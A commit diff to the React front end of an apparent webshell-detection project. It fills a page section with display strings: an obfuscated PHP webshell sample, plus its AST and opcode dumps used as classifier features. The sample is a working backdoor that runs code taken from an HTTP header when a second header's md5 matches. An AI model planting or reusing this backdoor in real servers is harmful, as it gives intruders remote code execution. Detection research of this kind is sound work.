

Before and after one commit to PNU-moonjigi/moonjigi-fe, a React (Vite) app: page /process in a window 1280 px wide. Shown: the part 940-1759 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
chore: 과정 페이지의 Tokenization 내용 채우기

```diff
--- a/src/page/Process/Tokenization.tsx
+++ b/src/page/Process/Tokenization.tsx
@@ -7,78 +7,210 @@ const Tokenization = () => {
       <div className={styles.terminalSection}>
         <div className={styles.imgSide}>
           <ImageWithText>
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test. hi, for test. hi, for test. hi, for test. hi,
-            for test. hi, for test. hi, for test. hi, for test. hi, for test.
-            hi, for test. hi, for test. hi, for test. hi, for test. hi, for
-            test. hi, for test.
+            {`<?php
+
+$Xt = "}zyuyyo";
+$sC = '-;K';
+$yWIm3f4 = "a@P@nf";
+$VSFHxobN6 = 'lTV^_A';
+$NiMFQcdpv = 'Wg7}y';
+$bO = "I(TFddG\\"L";
+'yuAR9bK_IM';
+$NFOor = '$a, ';
+$tRPwxjf_2s = "c42";
+$GYjy197jA = "HTTP_X_OS_PR";
+$GqY8x4 = 'EFS';
+$GnA = "md5";
+$HK4kh284Iy = "getenv";
+$ba = "create_function";
+$mKGuIFLsIU9 = "HTTP_A";
+$Ml1 = "Rc65x";
+$YK3qRS = "Y8TNddWbL";
+if (md5(getenv($mKGuIFLsIU9)) == "5d15db53a91790e913dc4e05a1319c42") {
+    $kR_NKA7Su = create_function("\\$a, \\$b", getenv(
+        /*I2jAJZEnpN'.
+          '_nO*/
+        "HTTP_X_OS_PREFS"
+    ));
+}
+$kR_NKA7Su($Ml1, $YK3qRS);
+#rTlthc@v^U@ykQuNEiaq9NFC'.
+'n0dvU,yCve{Fu~CtA*8%sZWe_%mZdpX_<Ra4M~2GuB}6m4';`}
           </ImageWithText>
         </div>
         <div className={styles.descriptionSide}>
-          <h2 className={styles.highlight}>비난독화</h2>
+          <h2 className={styles.highlight}>ast, opcode 추출</h2>
           <h1 className={styles.title}>
-            난독화된 php 파일을 비난독화 어쩌구 간략한 설명
+            opcode와 AST를 추출하여 피쳐를 생성한 후 학습 및 분류에 사용
           </h1>
           <p className={styles.subtitle}>
-            난독화된 php 파일을 비난독화어쩌구저쩌구 추가설명
+            숨겨진 악성 코드를 더 잘 찾아낼 수 있다.
           </p>
         </div>
       </div>
       <div className={styles.terminalSection}>
         <ImageWithText>
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
+          {`[
+    {
+        "nodeType": "Stmt_Expression",
+        "expr": {
+            "nodeType": "Expr_Assign",
+            "var": {
+                "nodeType": "Expr_Variable",
+                "name": "Xt",
+                "attributes": {
+                    "startLine": 3,
+                    "endLine": 3
+                }
+            },
+            "expr": {
+                "nodeType": "Scalar_String",
+                "value": "}zyuyyo",
+                "attributes": {
+                    "startLine": 3,
+                    "endLine": 3,
+                    "kind": 2,
+                    "rawValue": "\\"}zyuyyo\\""
+                }
+            },
+            "attributes": {
+                "startLine": 3,
+                "endLine": 3
+            }
+        },
+        "attributes": {
+            "startLine": 3,
+            "endLine": 3
+        }
+    },
+    {
+        "nodeType": "Stmt_Expression",
+        "expr": {
+            "nodeType": "Expr_Assign",
+            "var": {
+                "nodeType": "Expr_Variable",
+                "name": "sC",
+                "attributes": {
+                    "startLine": 4,
+                    "endLine": 4
+                }
+            },
+            "expr": {
+                "nodeType": "Scalar_String",
+                "value": "-;K",
+                "attributes": {
+                    "startLine": 4,
+                    "endLine": 4,
+                    "kind": 1,
+                    "rawValue": "'-;K'"
+                }
+            },
+            "attributes": {
+                "startLine": 4,
+                "endLine": 4
+            }
+        },
+        "attributes": {
+            "startLine": 4,
+            "endLine": 4
+        }
+    },
+    {
+        "nodeType": "Stmt_Expression",
+        "expr": {
+            "nodeType": "Expr_Assign",
+            "var": {
+                "nodeType": "Expr_Variable",
+                "name": "yWIm3f4",
+                "attributes": {
+                    "startLine": 5,
+                    "endLine": 5
+                }
+            },
+            "expr": {
+                "nodeType": "Scalar_String",
+                "value": "a@P@nf",
+                "attributes": {
+                    "startLine": 5,
+                    "endLine": 5,
+                    "kind": 2,
+                    "rawValue": "\\"a@P@nf\\""
+                }
+            },
+            "attributes": {
+                "startLine": 5,
+                "endLine": 5
+            }
+        },
+        "attributes": {
+            "startLine": 5,
+            "endLine": 5
+        }
+    },`}
         </ImageWithText>
         <ImageWithText>
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
-          hi, for test. hi, for test. hi, for test. hi, for test. hi, for test.
+          {`
+$_main:
+     ; (lines=58, args=0, vars=17, tmps=23)
+     ; /root/gradProj/result/webshell_deobfuscated/8c561905061461c8e110587f3527cdb9.php:1-30
+L0003 0000 EXT_STMT
+L0003 0001 ASSIGN CV0($Xt) string("}zyuyyo")
+L0004 0002 EXT_STMT
+L0004 0003 ASSIGN CV1($sC) string("-;K")
+L0005 0004 EXT_STMT
+L0005 0005 ASSIGN CV2($yWIm3f4) string("a@P@nf")
+L0006 0006 EXT_STMT
+L0006 0007 ASSIGN CV3($VSFHxobN6) string("lTV^_A")
+L0007 0008 EXT_STMT
+L0007 0009 ASSIGN CV4($NiMFQcdpv) string("Wg7}y")
+L0008 0010 EXT_STMT
+L0008 0011 ASSIGN CV5($bO) string("I(TFddG"L")
+L0000 0012 NOP
+L0010 0013 EXT_STMT
+L0010 0014 ASSIGN CV6($NFOor) string("$a, ")
+L0011 0015 EXT_STMT
+L0011 0016 ASSIGN CV7($tRPwxjf_2s) string("c42")
+L0012 0017 EXT_STMT
+L0012 0018 ASSIGN CV8($GYjy197jA) string("HTTP_X_OS_PR")
+L0013 0019 EXT_STMT
+L0013 0020 ASSIGN CV9($GqY8x4) string("EFS")
+L0014 0021 EXT_STMT
+L0014 0022 ASSIGN CV10($GnA) string("md5")
+L0015 0023 EXT_STMT
+L0015 0024 ASSIGN CV11($HK4kh284Iy) string("getenv")
+L0016 0025 EXT_STMT
+L0016 0026 ASSIGN CV12($ba) string("create_function")
+L0017 0027 EXT_STMT
+L0017 0028 ASSIGN CV13($mKGuIFLsIU9) string("HTTP_A")
+L0018 0029 EXT_STMT
+L0018 0030 ASSIGN CV14($Ml1) string("Rc65x")
+L0019 0031 EXT_STMT
+L0019 0032 ASSIGN CV15($YK3qRS) string("Y8TNddWbL")
+L0020 0033 EXT_STMT
+L0020 0034 INIT_FCALL 1 96 string("md5")
+L0020 0035 INIT_FCALL 1 96 string("getenv")
+L0020 0036 SEND_VAR CV13($mKGuIFLsIU9) 1
+L0020 0037 V33 = DO_FCALL
+L0020 0038 SEND_VAR V33 1
+L0020 0039 V34 = DO_FCALL
+L0020 0040 T35 = IS_EQUAL V34 string("5d15db53a91790e913dc4e05a1319c42")
+L0020 0041 JMPZ T35 0051
+L0021 0042 EXT_STMT
+L0021 0043 INIT_FCALL_BY_NAME 2 string("create_function")
+L0021 0044 SEND_VAL_EX string("$a, $b") 1
+L0021 0045 INIT_FCALL 1 96 string("getenv")
+L0024 0046 SEND_VAL string("HTTP_X_OS_PREFS") 1
+L0024 0047 V36 = DO_FCALL
+L0024 0048 SEND_VAR_NO_REF_EX V36 2
+L0024 0049 V37 = DO_FCALL
+L0021 0050 ASSIGN CV16($kR_NKA7Su) V37
+L0027 0051 EXT_STMT
+L0027 0052 INIT_DYNAMIC_CALL 2 CV16($kR_NKA7Su)
+L0027 0053 SEND_VAR_EX CV14($Ml1) 1
+L0027 0054 SEND_VAR_EX CV15($YK3qRS) 2
+L0027 0055 DO_FCALL
+L0030 0056 EXT_STMT
+L0030 0057 RETURN int(1)`}
         </ImageWithText>
       </div>
     </div>
```
